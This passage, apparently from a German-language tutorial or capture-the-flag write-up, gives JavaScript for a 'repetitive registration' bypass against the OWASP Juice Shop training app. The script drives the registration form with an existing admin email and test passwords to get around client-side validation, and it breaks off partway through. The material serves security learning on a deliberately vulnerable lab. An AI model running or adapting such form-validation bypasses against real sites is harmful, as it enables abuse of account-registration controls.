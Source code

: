```javascript
        console.log('📋 Form state:', {
            novalidate: newForm.hasAttribute('novalidate'),
            buttonDisabled: newSubmitButton.disabled
        });
        
        return { form: newForm, button: newSubmitButton };
    }
}
```

### 🛠️ Vollständiger Exploit-Workflow

```javascript
// Kompletter Repetitive Registration Bypass
async function exploitRepetitiveRegistration() {
    console.log('🚀 Starting Repetitive Registration Exploit...');
    
    // 1. Navigiere zur Registrierungsseite
    if (!window.location.hash.includes('register')) {
        window.location.hash = '#/register';
        await new Promise(resolve => setTimeout(resolve, 1000));
    }
    
    // 2. Warte bis Seite geladen ist
    await new Promise(resolve => {
        const checkLoaded = () => {
            const submitButton = document.querySelector('button[type="submit"], #registerButton');
            if (submitButton) {
                resolve();
            } else {
                setTimeout(checkLoaded, 100);
            }
        };
        checkLoaded();
    });
    
    // 3. Gib bereits existierende E-Mail ein (um Button zu deaktivieren)
    const emailField = document.querySelector('input[type="email"]');
    const passwordField = document.querySelector('input[type="password"]');
    const confirmPasswordField = document.querySelectorAll('input[type="password"]')[1];
    
    if (emailField) {
        // Beispiel: Verwende eine E-Mail die bereits existiert
        emailField.value = 'admin@juice-sh.op';
        emailField.dispatchEvent(new Event('input', { bubbles: true }));
        emailField.dispatchEvent(new Event('blur', { bubbles: true }));
        
        console.log('📧 Email entered:', emailField.value);
        
        // Warte auf Validierung
        await new Promise(resolve => setTimeout(resolve, 500));
    }
    
    // 4. Fülle andere Felder aus
    if (passwordField && confirmPasswordField) {
        passwordField.value = 'TestPassword123!';
        confirmPasswordField.value = 'TestPassword123!';
        
        passwordField.dispatchEvent(new Event('input', { bubbles: true }));
        confirmPasswordField.dispatchEvent(new Event('input', { bubbles: true }));
    }
    
    // 5. Prüfe Button-Status
```